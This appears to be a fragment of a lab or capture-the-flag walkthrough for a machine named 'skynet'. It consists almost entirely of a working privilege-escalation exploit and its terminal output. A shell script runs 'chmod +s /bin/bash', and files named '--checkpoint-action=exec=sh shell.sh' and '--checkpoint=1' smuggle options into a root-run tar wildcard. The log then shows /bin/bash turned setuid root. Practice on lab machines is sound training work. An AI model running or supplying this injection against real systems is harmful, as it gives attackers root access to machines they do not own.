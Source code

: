 change /bin/bash to setuid from root

```bash
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```


```
www-data@skynet:/var/www/html$ ls -la
ls -la
total 68
drwxr-xr-x 8 www-data www-data  4096 Nov 26 10:19 .
drwxr-xr-x 3 root     root      4096 Sep 17  2019 ..
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css
www-data@skynet:/var/www/html$ ls -lah /bin/bash
ls -lah /bin/bash
-rwxr-xr-x 1 root root 1014K Jul 12  2019 /bin/bash
www-data@skynet:/var/www/html$ clear
clear
TERM environment variable not set.
www-data@skynet:/var/www/html$ ls -la /bin/bash
ls -la /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
www-data@skynet:/var/www/html$ date
date
Tue Mar 23 09:24:55 CDT 2021
www-data@skynet:/var/www/html$ printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
<ml$ printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh                     
www-data@skynet:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
<ml$ echo "" > "--checkpoint-action=exec=sh shell.sh"                        
www-data@skynet:/var/www/html$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
www-data@skynet:/var/www/html$ ls -la
ls -la
total 80
-rw-rw-rw- 1 www-data www-data     1 Mar 23 09:25 --checkpoint-action=exec=sh shell.sh
-rw-rw-rw- 1 www-data www-data     1 Mar 23 09:25 --checkpoint=1
drwxr-xr-x 8 www-data www-data  4096 Mar 23 09:25 .
drwxr-xr-x 3 root     root      4096 Sep 17  2019 ..
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
-rw-rw-rw- 1 www-data www-data    30 Mar 23 09:25 shell.sh
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css
www-data@skynet:/var/www/html$ date
date
Tue Mar 23 09:26:15 CDT 2021
www-data@skynet:/var/www/html$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```